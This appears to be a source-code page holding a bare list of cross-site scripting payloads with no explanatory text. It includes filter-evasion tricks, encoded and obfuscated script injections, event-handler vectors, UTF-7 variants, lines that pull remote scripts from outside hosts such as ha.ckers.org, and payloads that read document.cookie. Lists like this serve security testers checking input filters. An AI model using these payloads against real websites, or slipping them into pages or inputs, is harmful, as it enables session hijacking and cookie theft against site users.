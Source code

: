       exp/*<A STYLE='no\xss:noxss("*//*");xss:&#101;x&#x2F;*XSS*//*/*/pression(alert("XSS"))'>
      <EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>
      a="get";b="URL(ja\"";c="vascr";d="ipt:ale";e="rt('XSS');\")";eval(a+b+c+d+e);
      <SCRIPT SRC="http://ha.ckers.org/xss.jpg"></SCRIPT>
      <HTML><BODY><?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time"><?import namespace="t" implementation="#default#time2"><t:set attributeName="innerHTML" to="XSS&lt;SCRIPT DEFER&gt;alert(&quot;XSS&quot;)&lt;/SCRIPT&gt;"></BODY></HTML>
      <SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <form id="test" /><button form="test" formaction="javascript:alert(123)">TESTHTML5FORMACTION
      <form><button formaction="javascript:alert(123)">crosssitespt
      <frameset onload=alert(123)>
      <!--<img src="--><img src=x onerror=alert(123)//">
      <style><img src="</style><img src=x onerror=alert(123)//">
      <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
      <embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
      <embed src="javascript:alert(1)">
      <? foo="><script>alert(1)</script>">
      <! foo="><script>alert(1)</script>">
      </ foo="><script>alert(1)</script>">
      <script>({0:#0=alert/#0#/#0#(123)})</script>
      <script>ReferenceError.prototype.__defineGetter__('name', function(){alert(123)}),x</script>
      <script>Object.__noSuchMethod__ = Function,[{}][0].constructor._('alert(1)')()</script>
      <script src="#">{alert(1)}</script>;1
      <script>crypto.generateCRMFRequest('CN=0',0,0,null,'alert(1)',384,null,'rsa-dual-use')</script>
      <svg xmlns="#"><script>alert(1)</script></svg>
      <svg onload="javascript:alert(123)" xmlns="#"></svg>
      <iframe xmlns="#" src="javascript:alert(1)"></iframe>
      +ADw-script+AD4-alert(document.location)+ADw-/script+AD4-
      %2BADw-script+AD4-alert(document.location)%2BADw-/script%2BAD4-
      +ACIAPgA8-script+AD4-alert(document.location)+ADw-/script+AD4APAAi-
      %2BACIAPgA8-script%2BAD4-alert%28document.location%29%2BADw-%2Fscript%2BAD4APAAi-
      %253cscript%253ealert(document.cookie)%253c/script%253e
      “><s”%2b”cript>alert(document.cookie)</script>
      “><ScRiPt>alert(document.cookie)</script>
      “><<script>alert(document.cookie);//<</script>
      foo<script>alert(document.cookie)</script>
      <scr<script>ipt>alert(document.cookie)</scr</script>ipt>
      %22/%3E%3CBODY%20onload=’document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)’%3E
      ‘; alert(document.cookie); var foo=’
      foo\’; alert(document.cookie);//’;
      </script><script >alert(document.cookie)</script>
      <img src=asdf onerror=alert(document.cookie)>
      <BODY ONLOAD=alert(’XSS’)>
      <script>alert(1)</script>
      "><script>alert(String.fromCharCode(66, 108, 65, 99, 75, 73, 99, 101))</script>
      <video src=1 onerror=alert(1)>
      <audio src=1 onerror=alert(1)>
      ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
      '';!--"<XSS>=&{()}
      0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"
      <script/src=data:,alert()>
      <marquee/onstart=alert()>
      <video/poster/onerror=alert()>
      <isindex/autofocus/onfocus=alert()>
      <SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
      <IMG SRC="javascript:alert('XSS');">
      <IMG SRC=javascript:alert('XSS')>